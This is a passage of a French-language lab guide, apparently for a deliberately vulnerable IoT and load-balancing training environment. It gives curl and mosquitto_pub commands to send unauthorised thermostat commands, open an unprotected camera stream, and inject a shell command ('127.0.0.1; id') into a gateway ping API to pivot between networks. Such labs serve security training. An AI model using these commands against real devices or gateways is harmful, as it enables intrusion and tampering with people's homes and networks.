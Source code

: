 2. **Publication de commandes MQTT non autorisées**
   - Publiez des commandes pour contrôler les appareils:
   ```bash
   mosquitto_pub -h 192.168.98.2 -t "home/thermostat/command" -m '{"action":"set", "temperature":35}'
   ```

### Phase 3: Exploitation des API d'appareils

1. **Manipulation du thermostat**
   - Accédez à l'interface web: http://localhost:8086
   - Utilisez curl pour manipuler l'appareil:
   ```bash
   curl -X POST http://localhost:8086/api/target -H "Content-Type: application/json" -d '{"temperature": 35.0}'
   ```

2. **Accès à la caméra IoT**
   - Accédez à la caméra: http://localhost:8087
   - Essayez de trouver le flux vidéo non protégé: http://localhost:8087/stream

### Phase 4: Compromission de la passerelle IoT

1. **Exploitation de l'API de la passerelle**
   - Accédez à la passerelle depuis le réseau IoT ou LAN
   - Essayez l'injection de commande via l'API ping:
   ```bash
   curl -X POST http://192.168.99.50/api/ping -d '{"ip":"127.0.0.1; id"}'
   ```

2. **Pivotement entre réseaux**
   - Utilisez la passerelle compromise pour pivoter entre le réseau IoT et le réseau corporate:
   ```bash
   # Exemple d'une commande pour tester la connectivité entre réseaux
   curl -X POST http://192.168.99.50/api/ping -d '{"ip":"192.168.99.10"}'
   ```

## Scénario 3: Attaques d'infrastructure (Load Balancing)

**Objectif**: Exploiter les vulnérabilités dans une infrastructure d'équilibrage de charge.

**Modules requis**: Core + Load Balancing

**Démarrage**:
```bash
./start-lb-scenario.sh
```

### Phase 1: Reconnaissance de l'infrastructure

1. **Détection de l'équilibreur de charge**
   - Analyser les entêtes HTTP:
   ```bash
   curl -I http://localhost
   ```
